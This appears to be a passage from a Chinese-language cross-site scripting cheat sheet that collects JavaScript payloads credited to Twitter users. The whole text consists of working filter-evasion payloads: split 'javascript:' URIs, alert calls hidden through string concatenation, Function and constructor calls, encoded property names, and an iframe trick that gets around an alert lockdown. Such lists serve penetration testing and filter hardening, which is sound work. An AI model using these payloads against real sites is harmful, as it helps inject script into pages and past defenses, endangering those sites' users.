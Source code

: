 一行代码:
```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]]("1")
```

作者[@quanyang](https://twitter.com/quanyang/status/1078536601184030721) 的payload

```javascript
prompt`${document.domain}`
document.location='java\tscript:alert(1)'
document.location='java\rscript:alert(1)'
document.location='java\tscript:alert(1)'
```

作者[@404death](https://twitter.com/404death/status/1011860096685502464)  的payload

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout`alert\u0028document.domain\u0029`;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

使用替代方式绕过触发alert

```javascript
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
        if (exec_original) {
          return proxy.apply(this, arguments);
        }
      };
      XSSObject.lockdown(obj, name);
  };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```
